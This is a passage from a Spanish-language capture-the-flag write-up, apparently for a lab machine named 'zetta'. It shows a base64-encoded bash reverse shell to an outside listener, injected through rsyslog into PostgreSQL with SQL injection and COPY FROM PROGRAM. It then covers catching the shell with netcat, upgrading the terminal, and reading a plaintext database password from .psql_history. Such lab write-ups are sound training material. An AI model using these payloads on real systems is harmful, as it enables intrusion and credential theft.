 Me envío una reverse shell como ```postsql

```null
echo 'bash -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"' | base64 -w 0 | xclip -sel clip
```

```null
roy@zetta:/etc/rsyslog.d$ logger -p local7.info "campo1',NULL); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM \$$ echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yLzQ0MyAwPiYxIgo=|base64 -d|bash \$$;-- -"
```

Y la recibo en una sesión de ```netcat```

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.156.
Ncat: Connection from 10.10.10.156:56782.
bash: cannot set terminal process group (15316): Inappropriate ioctl for device
bash: no job control in this shell
postgres@zetta:/var/lib/postgresql/11/main$ 
postgres@zetta:/var/lib/postgresql/11/main$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
postgres@zetta:/var/lib/postgresql/11/main$ ^Z
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
postgres@zetta:/var/lib/postgresql/11/main$ export TERM=xterm
postgres@zetta:/var/lib/postgresql/11/main$ export SHELL=bash
postgres@zetta:/var/lib/postgresql/11/main$ stty rows 55 columns 209
```

En su directorio personal hay un histórico de ```Postgresql```

```null
postgres@zetta:/var/lib/postgresql$ ls -la
total 24
drwxr-xr-x  5 postgres postgres 4096 Feb 22 13:28 .
drwxr-xr-x 28 root     root     4096 Jul 16  2021 ..
drwxr-xr-x  3 postgres postgres 4096 Jul 27  2019 11
lrwxrwxrwx  1 root     root        9 Jul 27  2019 .bash_history -> /dev/null
drwx------  3 postgres postgres 4096 Feb 22 13:28 .gnupg
-rw-------  1 postgres postgres  744 Jul 27  2019 .psql_history
drwx------  2 postgres postgres 4096 Jul 27  2019 .ssh
```

Dentro tiene una contraseña

```null
postgres@zetta:/var/lib/postgresql$ cat .psql_history 
CREATE DATABASE syslog;
\c syslog
CREATE TABLE syslog_lines ( ID serial not null primary key, CustomerID bigint, ReceivedAt timestamp without time zone NULL, DeviceReportedTime timestamp without time zone NULL, Facility smallint NULL, Priority smallint NULL, FromHost varchar(60) NULL, Message text, NTSeverity int NULL, Importance int NULL, EventSource varchar(60), EventUser varchar(60) NULL, EventCategory int NULL, EventID int NULL, EventBinaryData text NULL, MaxAvailable int NULL, CurrUsage int NULL, MinUsage int NULL, MaxUsage int NULL, InfoUnitID int NULL , SysLogTag varchar(60), EventLogType varchar(60), GenericFileName VarChar(60), SystemID int NULL);
\d syslog_lines
ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';
```
